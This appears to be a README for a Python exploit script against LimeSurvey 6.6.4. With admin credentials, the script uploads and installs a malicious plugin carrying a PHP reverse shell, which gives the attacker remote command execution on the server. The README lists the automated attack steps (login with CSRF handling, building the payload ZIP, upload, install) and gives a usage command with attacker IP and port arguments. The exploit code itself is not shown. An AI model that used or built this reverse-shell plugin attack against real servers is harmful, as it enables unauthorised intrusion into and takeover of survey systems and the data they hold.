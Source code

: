 # LimeSurvey 6.6.4 Reverse Shell Plugin Exploit (Authenticated)

This Python script exploits a file upload vulnerability in **LimeSurvey 6.6.4** by uploading a malicious plugin containing a PHP reverse shell payload. It requires valid **admin credentials** to authenticate and perform the attack. The script automates the following steps:

- Logs into the LimeSurvey admin dashboard using provided credentials and handles CSRF tokens.
- Generates a malicious plugin ZIP archive with a reverse shell PHP script configured with your IP and port.
- Uploads the plugin via the vulnerable plugin manager interface.
- Confirms and installs the uploaded plugin to trigger the reverse shell.

Once executed successfully, the script opens a reverse shell from the target LimeSurvey server back to the attacker’s machine, enabling remote command execution.

---

## Features

- Requires valid admin login credentials (authenticated exploit).
- Automated login with CSRF token extraction.
- Customizable reverse shell PHP payload.
- Plugin upload and installation automation.
- Simple command-line interface (CLI) usage.

---

## Usage

```bash
python3 lime_reverse_shell_exploit.py \
  --target http://target-limesurvey \
  --username admin \
  --password pass123 \
  --ip attacker_ip \
  --port attacker_port
